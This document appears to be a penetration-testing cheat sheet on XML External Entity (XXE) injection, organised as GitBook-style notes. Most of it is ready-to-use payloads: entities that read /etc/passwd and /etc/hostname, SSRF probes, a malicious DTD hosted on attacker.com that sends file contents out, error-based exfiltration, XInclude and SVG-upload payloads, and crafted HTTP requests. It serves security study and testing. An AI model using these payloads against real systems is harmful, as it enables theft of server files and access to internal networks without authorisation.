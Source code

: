 # XXE

<details>

<summary>Introduction</summary>

**What is XML**

* Some applications use the XML format to transmit data between the browser and the server.
* Its popularity has now declined in favor of the JSON format

**XXE Impact**

* Retrieve files
* Perform SSRF attacks

</details>

## <mark style="color:yellow;">Retrieve files</mark>

1. Introduce (or edit) a `DOCTYPE` element defining an external entity with the file path.
2. Edit a data value in the XML returned in the app's response to use the defined external entity.

{% hint style="info" %}
**Note**: to systematically test for XXE, test each data node in the XML individually using your defined entity to see if it appears in the response.
{% endhint %}

```xml
<! -- Original -->
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## <mark style="color:yellow;">Perform SSRF attacks</mark>

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## <mark style="color:yellow;">Blind XXE</mark>

### <mark style="color:yellow;">Out-of-band (OAST) techniques</mark> <a href="#detecting-blind-xxe-using-out-of-band-oast-techniques" id="detecting-blind-xxe-using-out-of-band-oast-techniques"></a>

**Detection**

* Detecting as SSRF
  * ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
    ```
* Regular entities are blocked? Bypass via XML parameter entities
  * ```xml
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
    ```
  * This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD

**Exploitation**

1. Start a web server and host on `http://attacker.com/example.dtd` this malicious dtd.

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attaccker.com/?x=%file;'>">
%stack;
%exfil;
```

2. Add this external entity

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/example.dtd"> %xxe;]>
```

{% hint style="info" %}
**Note**: This technique might not work with multiline files.
{% endhint %}

### <mark style="color:yellow;">Via error messages</mark> <a href="#exploiting-blind-xxe-to-retrieve-data-via-error-messages" id="exploiting-blind-xxe-to-retrieve-data-via-error-messages"></a>

Trigger an XML parsing error message with the file contents.&#x20;

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

{% hint style="info" %}
**Note**: This works if you notice an error in the response when detecting with OAST (e.g., the reflected URL entered)
{% endhint %}

## <mark style="color:yellow;">Hidden attack surface</mark>

* **First case** - Requests that contain data in XML format
* **Second case -** Requests that do not contain any XML
  * **Detection**: Add entity reference that doesn't exist to cause an error  -> ok it's XML

### <mark style="color:yellow;">XInclude attacks</mark>

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document

`XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

```http
POST /product/stock HTTP/2
Host: vulnerable.website.com
[...]



productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude">
<xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

### <mark style="color:yellow;">Via file upload</mark>

Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

This works if it's used image processing library & support SVG images & allow external entity

### <mark style="color:yellow;">Via modified content type</mark>

Some web app will tolerate other content types.

**Expected request**

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

**Sumbit following request**

```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
